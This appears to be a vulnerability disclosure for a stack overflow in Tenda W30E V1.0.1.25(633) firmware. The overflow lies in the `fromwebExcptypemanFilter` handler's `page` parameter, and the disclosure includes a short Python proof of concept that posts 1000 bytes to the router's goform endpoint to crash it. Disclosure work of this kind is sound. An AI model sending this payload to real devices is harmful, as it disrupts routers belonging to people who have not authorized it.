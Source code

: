 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `fromwebExcptypemanFilter` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(s, "firewall_murlexcplist.asp?page=%s", v6);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v8` array, thus triggering this security vulnerability.

![image-20240409102931651](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102931651.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/webExcptypemanFilter"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240409102942501](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102942501.png)